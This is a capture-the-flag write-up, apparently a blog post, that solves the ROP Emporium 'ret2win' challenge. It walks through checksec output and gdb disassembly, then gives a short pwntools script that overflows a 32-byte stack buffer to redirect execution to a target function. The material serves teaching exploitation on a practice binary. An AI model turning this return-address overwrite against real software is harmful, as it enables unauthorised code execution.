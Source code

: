 ```yaml
---
layout: post
title: Ropemporium Ret2win challenge
date: 2021-12-20 21:07 +0300
categories: [ropemporium]
tags: [ctf, ropemporium]
---
```


> Locate a method that you want to call within the binary. Call it by overwriting a saved return address on the stack.This challenge is classical pwn challenge of overwriting the return address with desired address you want to return to.

The binaries for the challenges can be downloaded from the author`s website [ropemporium](https://ropemporium.com).The goal of first challenge is to call the **ret2win** function.

After downloading the binary, the first is to check binary protection enabled on the binary using `checksec` utility.

```bash
vx@archie:ret2win$ checksec --file ret2win
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Only **NX** (Not executable) is enabled on the binary meaning we cannot execute code stored on the stack like `shellcode`. Toe analyze the behavior of the program we will use `gdb`. gdb is a tool that enables one to inspect the behavior of binaries at runtime.

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400528  _init
0x0000000000400550  puts@plt
0x0000000000400560  system@plt
0x0000000000400570  printf@plt
0x0000000000400580  memset@plt
0x0000000000400590  read@plt
0x00000000004005a0  setvbuf@plt
0x00000000004005b0  _start
0x00000000004005e0  _dl_relocate_static_pie
0x00000000004005f0  deregister_tm_clones
0x0000000000400620  register_tm_clones
0x0000000000400660  __do_global_dtors_aux
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
0x0000000000400780  __libc_csu_init
0x00000000004007f0  __libc_csu_fini
0x00000000004007f4  _fini
(gdb)
```

The binary has various functions has as shown in the output above.For initial analysis we start at the `main` function which is the entrypoint of our program.

```nasm
(No debugging symbols found in ret2win)
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400697 <+0>:	push   rbp
   0x0000000000400698 <+1>:	mov    rbp,rsp
   0x000000000040069b <+4>:	mov    rax,QWORD PTR [rip+0x2009b6]        # 0x601058 <stdout@@GLIBC_2.2.5>
   0x00000000004006a2 <+11>:	mov    ecx,0x0
   0x00000000004006a7 <+16>:	mov    edx,0x2
   0x00000000004006ac <+21>:	mov    esi,0x0
   0x00000000004006b1 <+26>:	mov    rdi,rax
   0x00000000004006b4 <+29>:	call   0x4005a0 <setvbuf@plt>
   0x00000000004006b9 <+34>:	mov    edi,0x400808
   0x00000000004006be <+39>:	call   0x400550 <puts@plt>
   0x00000000004006c3 <+44>:	mov    edi,0x400820
   0x00000000004006c8 <+49>:	call   0x400550 <puts@plt>
   0x00000000004006cd <+54>:	mov    eax,0x0
   0x00000000004006d2 <+59>:	call   0x4006e8 <pwnme>
   0x00000000004006d7 <+64>:	mov    edi,0x400828
   0x00000000004006dc <+69>:	call   0x400550 <puts@plt>
   0x00000000004006e1 <+74>:	mov    eax,0x0
   0x00000000004006e6 <+79>:	pop    rbp
   0x00000000004006e7 <+80>:	ret
End of assembler dump.
(gdb)
```

From the initial analysis of the main function,main call an interesting function called **pwnme**. Next is to disassemble **pwnme** function to understand the behavior.

```nasm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400838
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x400898
   0x0000000000400715 <+45>:	call   0x400550 <puts@plt>
   0x000000000040071a <+50>:	mov    edi,0x4008b8
   0x000000000040071f <+55>:	call   0x400550 <puts@plt>
   0x0000000000400724 <+60>:	mov    edi,0x400918
   0x0000000000400729 <+65>:	mov    eax,0x0
   0x000000000040072e <+70>:	call   0x400570 <printf@plt>
   0x0000000000400733 <+75>:	lea    rax,[rbp-0x20]
   0x0000000000400737 <+79>:	mov    edx,0x38
   0x000000000040073c <+84>:	mov    rsi,rax
   0x000000000040073f <+87>:	mov    edi,0x0
   0x0000000000400744 <+92>:	call   0x400590 <read@plt>
   0x0000000000400749 <+97>:	mov    edi,0x40091b
   0x000000000040074e <+102>:	call   0x400550 <puts@plt>
   0x0000000000400753 <+107>:	nop
   0x0000000000400754 <+108>:	leave
   0x0000000000400755 <+109>:	ret
End of assembler dump.
```

From analysis of the above assembly code, we fill a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values present memory area specified. The memory we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32 bytes from the address of base pointer as shown in the stack diagram below.

![](/assets/images/ropemporium/stack.png)

Next function is **read** function, which reads from the standard input file descriptor and stores in the specified buffer.From the disassembled code we are reading 0x38 bytes from the user input and storing it in our buffer.

```c
read(0, *[rbp-0x20], 0x38) //0 is file descriptor stdin
```

Because we are reading more than what the buffer can hold, we corrupt the adjacent memory regions therefore causing a stack buffer overflow. Therefore in order to control the return address as shown in the stack image above is to fill the buffer, overwrite the `rbp` register and control the return address with **ret2win** function address.

The exploit code for this ret2win function is,

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./ret2win')

payload = b"A" * 32 # fill the buffer
payload += b"B" * 8  #overwrite saved base pointer
payload += pwn.p64(0x400756)  #Address of ret2win function
io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running the above script we get correct flag.

```bash
vx@archie:ret2win$ python3 x.py
[+] Starting local process './ret2win': pid 45427
[*]  Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}
[*] Process './ret2win' stopped with exit code 0 (pid 45427)
```
